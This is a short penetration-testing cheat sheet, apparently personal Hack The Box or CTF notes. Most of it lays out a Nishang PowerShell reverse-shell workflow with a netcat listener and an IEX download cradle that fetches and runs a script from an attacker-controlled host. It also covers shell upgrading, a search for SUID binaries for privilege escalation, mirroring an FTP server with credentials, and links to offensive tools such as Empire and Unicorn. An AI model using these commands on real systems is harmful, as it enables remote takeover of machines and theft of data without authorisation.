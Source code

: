 #### Tools & Techniques


# Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


# Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
# to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


# Windows
# to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

# Tools
# Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

# Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

# Other tools
readpst,mdb-shell,mdb-sql

# Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
